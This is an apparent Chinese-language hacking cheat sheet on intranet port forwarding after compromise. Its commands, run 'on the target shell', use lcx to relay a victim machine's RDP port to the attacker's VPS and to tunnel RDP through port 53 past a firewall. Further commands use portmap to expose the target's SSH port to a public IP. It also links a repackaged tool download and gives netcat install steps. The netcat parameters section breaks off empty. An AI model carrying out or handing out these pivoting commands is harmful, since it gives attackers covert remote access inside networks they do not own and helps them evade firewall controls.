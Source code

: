 **lcx内网端口转发**
```bash
先传lcx到目标机器
#在内网目标shell上: l
cx -slave 公网ip 4444 127.0.0.1 3389  # 把目标机器的3389流量转发到指定服务器(vps)指定端口
#vps服务器(我的)上执行：
lcx -listen 4444 33891  # 将本地4444端口上监听的所有数据转发到本机33891端口

#然后远程桌面连接本地的33891端口即可
```

**lcx本地端口映射**
```bash
# 如果目标防火墙 限制了部分端口的数据(如3389)，可以进行端口转发：把3389端口的数据转发到防火墙允许的其他端口(如:53)
# 在目标主机执行
lcx -tran 53 <目标ip>: 3389
```

**linux版的portmap**
```bash
# 下载地址：http://www.vuln.cn/wp-content/uploads/2016/06/lcx_vuln.cn_.zip

# vps
./portmap -m 2 -p1 6666 -h2 公网ip -p2 7777
# 目标内网机器
./portmap -m 3 -h1 127.0.0.1 -p1 22 -h2 公网ip -p2 6666

```


#### 2.netcat
安装
```bash
## Linux
# http://sourceforge.net/projects/netcat/files/netcat/0.7.1/netcat-0.7.1.tar.gz/download
#1. 
apt-get install netcat
  
# 2. 
wget ...
tar -zxvf ...
cd ...
./configure
make

## Windows
https://joncraton.org/files/nc111nt.zip
https://joncraton.org/files/nc111nt_safe.zip
```

参数
```bash

```
